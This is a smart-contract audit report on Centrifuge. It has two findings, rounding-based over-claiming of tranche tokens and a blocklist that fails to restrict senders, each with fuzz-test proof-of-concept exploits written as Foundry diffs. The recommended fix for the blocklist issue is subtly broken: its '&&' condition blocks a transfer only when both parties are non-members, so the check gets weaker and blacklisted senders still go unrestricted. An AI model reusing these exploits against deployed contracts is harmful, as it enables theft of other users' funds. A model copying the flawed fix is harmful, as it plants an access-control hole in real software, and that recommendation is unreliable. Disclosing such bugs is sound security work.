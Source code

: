 
# Centrifuge

**Date:** 08.09.2023-14.09.2023
**Platform:** Code4rena

# Medium Findings

https://github.com/code-423n4/2023-09-centrifuge/blob/main/src/InvestmentManager.sol#L580


## [M-01] Users can claim more tranche tokens than allowed by CFG

### Impact
Following a user's submission of a deposit request and depositing their USDC (or equivalent) into the escrow, the CFG chain calculates the tokens the user will receive based on the current exchange rate and updates the `maxMint` and `maxDeposit` variables accordingly. Subsequently, a user can choose to claim portions of the tokens or all at once.

The issue arises due to rounding errors in the functions that calculate the price and token awards for partial claims and when a user claims all tokens at once. In certain edge cases, these rounding errors can allow users to claim more tokens than permitted by the CFG chain using the maxMint variable. The errors stem from rounding down instead of up in the `_calculatePrice()` function:

```solidity
function _calculatePrice(uint128 currencyAmount, uint128 trancheTokenAmount, address liquidityPool) public view returns (uint256 depositPrice){

	...

	depositPrice = currencyAmountInPriceDecimals.mulDiv( 10 ** PRICE_DECIMALS, trancheTokenAmountInPriceDecimals, MathLib.Rounding.Down);
}
```

Furthermore, there should typically be an underflow when the claimed tokens are deducted from the `maxMint`. Solidity's underflow protection would then trigger a revert, making it impossible for users to claim more than allowed. Unfortunately, the developers have circumvented this security measure by implementing the function that decreases the user's `maxMint` variable as follows:

```solidity
function _decreaseDepositLimits(address user, address liquidityPool, uint128 _currency, uint128 trancheTokens) internal {
	LPValues storage lpValues = orderbook[user][liquidityPool];
	if (lpValues.maxDeposit < _currency) {
		lpValues.maxDeposit = 0;
	} else {
		lpValues.maxDeposit = lpValues.maxDeposit - _currency;
	}

	if (lpValues.maxMint < trancheTokens) {
		lpValues.maxMint = 0;
	} else {
		lpValues.maxMint = lpValues.maxMint - trancheTokens;
	}
}
```

This implementation allows a user to receive more tokens than they were allowed to without triggering an underflow protection. This scenario would necessitate there being more tokens in the escrow than there were initially minted for the users depositRequest, allowing the user to claim/steal tokens allocated to another user.

### Proof of Concept

The provided Proof of Concept (POC) is a fuzz test that explores various inputs and claim amounts leading to the user receiving more tokens than they should have been allowed to.

#### testMaliciousUserScenarioSingleDeposit
Example Inputs:
`totalAmount = 1`
`tokenAmount = 1480750103`

Result:
`Intended retrieved tokens = 1480750103`
`Actually retrieved tokens = 1480750105`

#### testMaliciousUserScenarioMultipleDeposit
Example Inputs:
`totalAmount = 2`
`deposit1    = 1`
`deposit2    = 1`
`tokenAmount = 2913902725`

Result:
`Intended retrieved tokens = 2913902725`
`Actually retrieved tokens = 2913902726`

Attached to this you can find the diff for both tests:

<details>

```diff
diff --git a/test/LiquidityPool.t.sol b/test/LiquidityPool_TestsDeposit.t.sol
index 4e60ec1..f514650 100644
--- a/test/LiquidityPool.t.sol
+++ b/test/LiquidityPool_TestsDeposit.t.sol
@@ -207,37 +207,106 @@ contract LiquidityPoolTest is TestSetup {
         investor.withdraw(lPool_, lPool.maxWithdraw(address(investor)), address(investor), address(investor));
     }
 
-    function testMint(
-        uint64 poolId,
-        string memory tokenName,
-        string memory tokenSymbol,
-        bytes16 trancheId,
-        uint128 currencyId,
-        uint256 amount,
-        uint64 validUntil
+    function testMaliciousUserScenarioSingleDeposit(
+        uint256 totalAmount,
+        uint256 tokenAmount
     ) public {
-        vm.assume(currencyId > 0);
-        vm.assume(amount < MAX_UINT128);
-        vm.assume(validUntil >= block.timestamp);
+        //These get set directly in the test
+        uint64 poolId = 1;
+        uint128 currencyId = 1;
+        bytes16 trancheId = 0x00000000000000000000000000000000;
 
-        address lPool_ = deployLiquidityPool(poolId, erc20.decimals(), tokenName, tokenSymbol, trancheId, currencyId);
-        LiquidityPool lPool = LiquidityPool(lPool_);
+        //As the values get scaled to 18 decimals but the tokens only have 6, we need to account for this, so no overflow is possible
+        vm.assume(totalAmount > 0 && totalAmount < type(uint128).max / 10**12);
+        vm.assume(tokenAmount > 0 && tokenAmount < type(uint128).max / 10**12);
 
-        Investor investor = new Investor();
+        //Deploy a pool
+        LiquidityPool lPool = LiquidityPool(deployLiquidityPool(poolId, erc20.decimals(), "Test", "T", trancheId, currencyId));
 
-        vm.expectRevert(bytes("Auth/not-authorized"));
-        lPool.mint(address(investor), amount);
+        //Some other users also have tokens currently in escrow, simplified here
+        root.relyContract(address(lPool), self); 
+        lPool.mint(address(escrow), 10000);
 
-        root.relyContract(lPool_, self); // give self auth permissions
+        // Malicious user gets added as a member
+        homePools.updateMember(poolId, trancheId, self, uint64(block.timestamp + 1)); 
 
-        vm.expectRevert(bytes("RestrictionManager/destination-not-a-member"));
-        lPool.mint(address(investor), amount);
+        // Malicious user has totalAmount
+        erc20.mint(self, totalAmount);
 
-        homePools.updateMember(poolId, trancheId, address(investor), validUntil); // add investor as member
+        // Malicious user adds an allowance for the IM
+        erc20.approve(address(investmentManager), totalAmount); 
 
-        lPool.mint(address(investor), amount);
-        assertEq(lPool.balanceOf(address(investor)), amount);
-        assertEq(lPool.balanceOf(address(investor)), lPool.share().balanceOf(address(investor)));
+        // Deposit is requested
+        lPool.requestDeposit(totalAmount, self);
+               
+        // Ensure funds are locked in escrow
+        assertEq(erc20.balanceOf(address(escrow)), totalAmount);
+        assertEq(erc20.balanceOf(self), 0);
+
+        // Gateway returns randomly generated values for amount of tranche tokens and currency
+        homePools.isExecutedCollectInvest(
+            poolId, trancheId, bytes32(bytes20(self)), currencyId, uint128(totalAmount), uint128(tokenAmount)
+        );
+
+        // Malicious user calls to claim tokens
+        lPool.deposit(totalAmount, self);
+
+        // Malicious user has less or equal to the tokens that he should be allowed to hav by CFG
+        assertLe(lPool.balanceOf(self), tokenAmount);
+    }
+
+    function testMaliciousUserScenarioMultipleDeposit(        
+        uint256 totalAmount,
+        uint256 deposit1,
+        uint256 deposit2,
+        uint256 tokenAmount
+    ) public {
+        //These get set directly in the test
+        uint64 poolId = 1;
+        uint128 currencyId = 1;
+        bytes16 trancheId = 0x00000000000000000000000000000000;
+
+        //As the values get scaled to 18 decimals but the tokens only have 6, we need to account for this, so no overflow is possible
+        vm.assume(totalAmount > 0 && totalAmount < type(uint128).max / 10**12);
+        vm.assume(tokenAmount > 0 && tokenAmount < type(uint128).max / 10**12);
+        vm.assume(deposit1 > 0 && deposit1 < type(uint128).max / 10**12);
+        vm.assume(deposit2 > 0 && deposit2 < type(uint128).max / 10**12);
+        vm.assume(deposit1+deposit2==totalAmount);
+
+        //Deploy a pool
+        LiquidityPool lPool = LiquidityPool(deployLiquidityPool(poolId, erc20.decimals(), "Test", "T", trancheId, currencyId));
+
+        //Some other users also have tokens currently in escrow, simplified here
+        root.relyContract(address(lPool), self); 
+        lPool.mint(address(escrow), 10000);
+
+        // Malicious user gets added as a member
+        homePools.updateMember(poolId, trancheId, self, uint64(block.timestamp + 1)); 
+
+        // Malicious user has totalAmount
+        erc20.mint(self, totalAmount);
+
+        // Malicious user adds an allowance for the IM
+        erc20.approve(address(investmentManager), totalAmount); 
+
+        // Deposit is requested
+        lPool.requestDeposit(totalAmount, self);
+               
+        // Ensure funds are locked in escrow
+        assertEq(erc20.balanceOf(address(escrow)), totalAmount);
+        assertEq(erc20.balanceOf(self), 0);
+
+        // Gateway returns randomly generated values for amount of tranche tokens and currency
+        homePools.isExecutedCollectInvest(
+            poolId, trancheId, bytes32(bytes20(self)), currencyId, uint128(totalAmount), uint128(tokenAmount)
+        );
+
+        // Malicious user calls to claim tokens
+        lPool.deposit(deposit1, self);
+        lPool.deposit(deposit2, self);
+
+        // Malicious user has less or equal to the tokens that he should be allowed to hav by CFG
+        assertLe(lPool.balanceOf(self), tokenAmount);
     }
 
     function testBurn(
@@ -1346,4 +1415,4 @@ contract LiquidityPoolTest is TestSetup {
         );
         investor.deposit(_lPool, amount, _investor); // deposit the amount
     }
-}
+}
\ No newline at end of file
```
</details>


### Tools Used
Manual Review

### Recommended Mitigation Steps
Initially, it might seem that the issue can be resolved by switching the rounding method from `MathLib.Rounding.Down` to `MathLib.Rounding.Up` in the `_calculatePrice()` function. However, this straightforward adjustment triggers complications within the redeem process.

Changing the rounding function to `MathLib.Rounding.Up` leads to incorrect price calculations during the `processRedeem()` functionality. The core problem is partially fixed/secured by the UserEscrow contract, which includes a safeguard preventing users from withdrawing more USDC than they are permitted to based on the CFG chain.

```solidity
function transferOut(address token, address destination, address receiver, uint256 amount) external auth {
	require(destinations[token][destination] >= amount, "UserEscrow/transfer-failed");
	...
}
```

Nevertheless, modifying the rounding function in this manner results in users being unable to redeem the full tokens permited to redeem by CFG, as this safeguard is triggered. While this prevents the UserEscrow from transferring out other users' funds, it can lead to inconvenience and confusion for users who are only able to withdraw a partial amount of the tokens they requested to redeem.

Below, you will find the code diff for two test cases illustrating these issues, covering both partial and full redemption scenarios:

#### testMaliciousUserScenarioSingleRedeem
Example Inputs:
`totalRedeemableUSDC = 452857328473`
`tokenAmount         = 498106289492761508995438`

#### testMaliciousUserScenarioMultipleRedeem
Example Inputs:
`redeem1             = 1`
`totalRedeemableUSDC = 1`
`tokenAmount         = 2000000000004000001`

<details>

```diff
diff --git a/test/LiquidityPool.t.sol b/test/LiquidityPool_TestsRedeem.t.sol
index 4e60ec1..15a0683 100644
--- a/test/LiquidityPool.t.sol
+++ b/test/LiquidityPool_TestsRedeem.t.sol
@@ -207,37 +207,125 @@ contract LiquidityPoolTest is TestSetup {
         investor.withdraw(lPool_, lPool.maxWithdraw(address(investor)), address(investor), address(investor));
     }
 
-    function testMint(
-        uint64 poolId,
-        string memory tokenName,
-        string memory tokenSymbol,
-        bytes16 trancheId,
-        uint128 currencyId,
-        uint256 amount,
-        uint64 validUntil
+    function testMaliciousUserScenarioSingleRedeem(
+        uint128 totalRedeemableUSDC,
+        uint128 tokenAmount
     ) public {
-        vm.assume(currencyId > 0);
-        vm.assume(amount < MAX_UINT128);
-        vm.assume(validUntil >= block.timestamp);
+        //These get set directly in the test
+        uint64 poolId = 1;
+        uint128 currencyId = 1;
+        bytes16 trancheId = 0x00000000000000000000000000000000;
 
-        address lPool_ = deployLiquidityPool(poolId, erc20.decimals(), tokenName, tokenSymbol, trancheId, currencyId);
-        LiquidityPool lPool = LiquidityPool(lPool_);
+        //As the values get scaled to 18 decimals but the tokens only have 6 decimals, we need to account for this, so no overflow is possible
+        vm.assume(totalRedeemableUSDC > 0 && totalRedeemableUSDC < type(uint128).max / 10**12);
+        vm.assume(tokenAmount > 0 && tokenAmount < type(uint128).max / 10**12);
 
-        Investor investor = new Investor();
+        //Deploy a pool
+        LiquidityPool lPool = LiquidityPool(deployLiquidityPool(poolId, erc20.decimals(), "Test", "T", trancheId, currencyId));
 
-        vm.expectRevert(bytes("Auth/not-authorized"));
-        lPool.mint(address(investor), amount);
+        //Malicious user deposited into the LP some time ago
+        uint256 first_invest = 1000000000000;
+        erc20.mint(self, first_invest);
+        erc20.approve(address(investmentManager), first_invest); 
+        homePools.updateMember(poolId, trancheId, self, uint64(block.timestamp + 1)); 
+        lPool.requestDeposit(first_invest, self);
+        homePools.isExecutedCollectInvest(poolId, trancheId, bytes32(bytes20(self)), currencyId, uint128(first_invest), tokenAmount);
+        uint128 receivedTokenAmount = uint128(lPool.deposit(first_invest, self));
 
-        root.relyContract(lPool_, self); // give self auth permissions
+        //User should have his tokens now
+        assertEq(lPool.balanceOf(self), receivedTokenAmount);
 
-        vm.expectRevert(bytes("RestrictionManager/destination-not-a-member"));
-        lPool.mint(address(investor), amount);
+        //Some other users now also deposit USDC in escrow, simplified here
+        erc20.mint(address(escrow), totalRedeemableUSDC);
 
-        homePools.updateMember(poolId, trancheId, address(investor), validUntil); // add investor as member
+        //There is also some money currently in user escrow, also simplified
+        erc20.mint(address(userEscrow), 10000000000000000000);
 
-        lPool.mint(address(investor), amount);
-        assertEq(lPool.balanceOf(address(investor)), amount);
-        assertEq(lPool.balanceOf(address(investor)), lPool.share().balanceOf(address(investor)));
+        // IM gets allowance for the totalAmount by the malicious user
+        lPool.approve(address(investmentManager), uint256(receivedTokenAmount)); 
+
+        // User requests deposit
+        lPool.requestRedeem(uint256(receivedTokenAmount), self);
+
+        // Gateway returns that price is 1:1 so maxWithdraw and maxRedeem get set to 100
+        homePools.isExecutedCollectRedeem(
+            poolId, trancheId, bytes32(bytes20(self)), currencyId, totalRedeemableUSDC, receivedTokenAmount
+        );
+
+        //Calculation to split the received tokens into two parts
+        lPool.redeem(uint256(receivedTokenAmount), self, self);
+
+        // Malicious user should have more USDC than intended
+        assertLe(erc20.balanceOf(self), uint256(totalRedeemableUSDC));
+    }
+
+
+    function testMaliciousUserScenarioMultipleRedeem(
+        uint128 redeem1,
+        uint128 totalRedeemableUSDC,
+        uint128 tokenAmount
+    ) public {
+        //These get set directly in the test
+        uint64 poolId = 1;
+        uint128 currencyId = 1;
+        bytes16 trancheId = 0x00000000000000000000000000000000;
+
+        //As the values get scaled to 18 decimals but the tokens only have 6 decimals, we need to account for this, so no overflow is possible
+        vm.assume(totalRedeemableUSDC > 0 && totalRedeemableUSDC < type(uint128).max / 10**12);
+        vm.assume(tokenAmount > 0 && tokenAmount < type(uint128).max / 10**12);
+        vm.assume(redeem1 > 0 && redeem1 < type(uint128).max / 10**12);
+        
+        //Deploy a pool
+        LiquidityPool lPool = LiquidityPool(deployLiquidityPool(poolId, erc20.decimals(), "Test", "T", trancheId, currencyId));
+
+        //Malicious user deposited into the LP some time ago
+        uint256 first_invest = 1000000000000;
+        erc20.mint(self, first_invest);
+        erc20.approve(address(investmentManager), first_invest); 
+        homePools.updateMember(poolId, trancheId, self, uint64(block.timestamp + 1)); 
+        lPool.requestDeposit(first_invest, self);
+        homePools.isExecutedCollectInvest(poolId, trancheId, bytes32(bytes20(self)), currencyId, uint128(first_invest), tokenAmount);
+        uint128 receivedTokenAmount = uint128(lPool.deposit(first_invest, self));
+
+        //User should have his tokens now
+        assertEq(lPool.balanceOf(self), receivedTokenAmount);
+
+        //Some other users now also deposit USDC in escrow, simplified here
+        erc20.mint(address(escrow), totalRedeemableUSDC);
+
+        //There is also some money currently in user escrow, also simplified
+        erc20.mint(address(userEscrow), 10000000000000000000);
+
+        // IM gets allowance for the totalAmount by the malicious user
+        lPool.approve(address(investmentManager), uint256(receivedTokenAmount)); 
+
+        // User requests deposit
+        lPool.requestRedeem(uint256(receivedTokenAmount), self);
+
+        // Gateway returns that price is 1:1 so maxWithdraw and maxRedeem get set to 100
+        homePools.isExecutedCollectRedeem(
+            poolId, trancheId, bytes32(bytes20(self)), currencyId, totalRedeemableUSDC, receivedTokenAmount
+        );
+
+        //Calculation to split the received tokens into two parts
+        redeem1 = redeem1 % receivedTokenAmount;
+        uint128 redeem2 = receivedTokenAmount - redeem1;
+
+        assertEq(redeem1+redeem2, receivedTokenAmount);
+
+        //Due to the mod one of both could be 0
+        if (redeem1 != 0)
+        {
+            lPool.redeem(uint256(redeem1), self, self);
+        }
+
+        if(redeem2 != 0)
+        {
+            lPool.redeem(uint256(redeem2), self, self);
+        }
+
+        // Malicious user should have more USDC than intended
+        assertLe(erc20.balanceOf(self), uint256(totalRedeemableUSDC));
     }
 
     function testBurn(
@@ -1346,4 +1434,4 @@ contract LiquidityPoolTest is TestSetup {
         );
         investor.deposit(_lPool, amount, _investor); // deposit the amount
     }
-}
+}
\ No newline at end of file
```
</details>

To address this issue, the recommendation to the project team is to split the `_calculatePrice` function into two functions: `_calculatePriceInbound` and `_calculatePriceOutgoing`. For `_calculatePriceInbound`, use the rounding function `MathLib.Rounding.Up`, and for `_calculatePriceOutgoing`, use the rounding function `MathLib.Rounding.Down`.

This approach will ensure that both the minting and redeeming processes work correctly without rounding errors while maintaining the necessary security measures.

## [M-02] Insufficient Restriction checks on the blocklist


https://github.com/code-423n4/2023-09-centrifuge/blob/main/src/token/RestrictionManager.sol#L28


# Vulnerability details

## Impact
The tranche token incorporates functionalities to comply with ERC1404 requirements. This design aims to ensure that, in the event an address is added to a sanction list, that address is removed as a member (by setting its validity to the current timestamp), and all corresponding tranche tokens become non-transferable, unburnable, and un-mintable.

According to the contest description the intended behavior can be described like this: "Removing an investor from the memberlist in the Restriction Manager locks their tokens. This is expected behaviour."

However, there is a critical flaw in the implementation. The `detectTransferRestriction()` function only verifies the destination address of a transaction for membership status (not being blacklisted) but neglects to check the source address. This oversight allows blacklisted users to transfer their tokens to any address not on the blacklist, effectively bypassing the imposed restrictions.

```solidity
function detectTransferRestriction(address from, address to, uint256 value) public view returns (uint8) {
	if (!hasMember(to)) {
		return DESTINATION_NOT_A_MEMBER_RESTRICTION_CODE;
	}
	return SUCCESS_CODE;
}
```
Moreover, even in non-malicious scenarios, expired members can still transfer their tokens, which contradicts the intended behavior.

## Proof of Concept

In the provided Proof of Concept, it is demonstrated that a blacklisted user can successfully transfer their tokens after supposedly being "removed" as a member, exploiting the existing vulnerability.

<details>

```diff
diff --git a/test/token/Tranche.t.sol.orig b/test/token/Tranche_BlocklistIneffective.t.sol
index 38889a3..4c18960 100644
--- a/test/token/Tranche.t.sol.orig
+++ b/test/token/Tranche_BlocklistIneffective.t.sol
@@ -159,6 +159,43 @@ contract TrancheTokenTest is Test {
         assertEq(token.balanceOf(targetUser), 0);
     }
 
+    function testTransferFromTokensFromBlacklistedMember(uint256 amount, address sourceUser,address targetUser, uint256 validUntil) public {
+        
+        vm.assume(validUntil > block.timestamp + 1 && 
+                    sourceUser != address(0) && sourceUser != address(this) && sourceUser != address(token) && 
+                    targetUser != address(0) && targetUser != address(this) && targetUser != address(token));
+
+        //Source user is not blacklisted
+        restrictionManager.updateMember(sourceUser, validUntil);
+        assertEq(restrictionManager.members(sourceUser), validUntil);
+
+        //Mint to source
+        token.mint(address(this), amount);
+        token.transferFrom(address(this), sourceUser, amount);
+        assertEq(token.balanceOf(sourceUser), amount);
+
+        //Source user gets blacklisted
+        //NOTE: This is the only way we can currently remove a member, described in other issue
+        restrictionManager.updateMember(sourceUser, block.timestamp);
+
+        //Now we need to update the timestamp otherwise the user would still be valid
+        vm.warp(block.timestamp + 1);
+
+        //The blacklisted user gets a membership for the tranche with his new account
+        restrictionManager.updateMember(targetUser, validUntil);
+
+        //Transfer from the blacklisted user
+        vm.prank(sourceUser);
+        token.transfer(targetUser, amount);
+
+
+        //SourceUser should be blacklisted and have no money anymore, destination user should be not blacklisted and have all the tokens
+        assertEq(token.balanceOf(sourceUser), 0);
+        assertEq(token.balanceOf(targetUser), amount);
+        assertEq(RestrictionManager(address(token.restrictionManager())).hasMember(sourceUser), false);
+        assertEq(RestrictionManager(address(token.restrictionManager())).hasMember(targetUser), true);
+    }
+
     // Transfer
     function testTransferTokensToMemberWorks(uint256 amount, address targetUser, uint256 validUntil) public {
         vm.assume(baseAssumptions(validUntil, targetUser));
```
</details>

## Tools Used
Manual Review

## Recommended Mitigation Steps
To address this issue, an additional check should be introduced within the `detectTransferRestriction()` function to ensure comprehensive verification. This enhanced implementation could resemble the following:

```solidity
// --- ERC1404 implementation ---

function detectTransferRestriction(address from, address to, uint256 value) public view returns (uint8) {
	if (!hasMember(to) && !hasMember(from)) {
		return DESTINATION_NOT_A_MEMBER_RESTRICTION_CODE;
	}
	return SUCCESS_CODE;
}
```

</details>